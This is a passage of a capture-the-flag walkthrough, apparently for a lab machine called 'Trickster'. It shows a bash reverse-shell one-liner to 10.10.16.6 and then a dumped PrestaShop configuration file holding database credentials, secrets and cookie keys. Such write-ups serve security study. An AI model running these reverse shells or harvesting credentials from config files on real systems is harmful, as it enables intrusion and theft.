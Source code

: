 ```bash
bash -c "/usr/bin/sh -i >& /dev/tcp/10.10.16.6/4445 0>&1"
```

We catch the new shell  

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927115620.png" alt="1" style="width:700px; height:auto;">
<br/>

Checking the configuration file with path `/var/www/prestashop/app/config/parameters.php`  

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927120207.png" alt="1" style="width:700px; height:auto;">
<br/>

```php
<?php return array (
  'parameters' =>
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2024-05-25',
    'locale' => 'en-US',
    'use_debug_toolbar' => true,
    'cookie_key' => '8PR6s1SJZLPCjXTegH7fXttSAXbG2h6wfCD3cLk5GpvkGAZ4K9hMXpxBxrf7s42i',
    'cookie_iv' => 'fQoIWUoOLU0hiM2VmI1KPY61DtUsUx8g',
    'new_cookie_key' => 'def000001a30bb7f2f22b0a7790f2268f8c634898e0e1d32444c3a03f4040bd5e8cb44bdb57a73f70e01cf83a38ec5d2ddc1741476e83c45f97f763e7491cc5e002aff47',
```